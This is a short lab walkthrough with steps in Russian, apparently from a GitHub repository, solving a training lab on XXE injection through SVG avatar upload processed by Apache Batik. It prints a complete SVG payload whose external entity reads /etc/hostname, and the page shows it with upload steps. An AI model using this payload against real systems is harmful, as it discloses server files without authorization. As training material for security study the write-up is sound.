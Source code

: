 ```
Lab: Exploiting XXE via image file upload
Задача:  This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 
Решение:
```
- Открываем любой пост
[]1.png
- Создаем .svg файл со следующим содержанием:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
- Оставляем любой комментарий и прикрепляем данный файл
![](2.png)
- Обращаем внимание на наш аватар и видим содержимое "/etc/hostname"
![]3.png
- Вбиваем результат
![](4.png) 
- Получаем подтверждение успешного завершения
![](5.png)
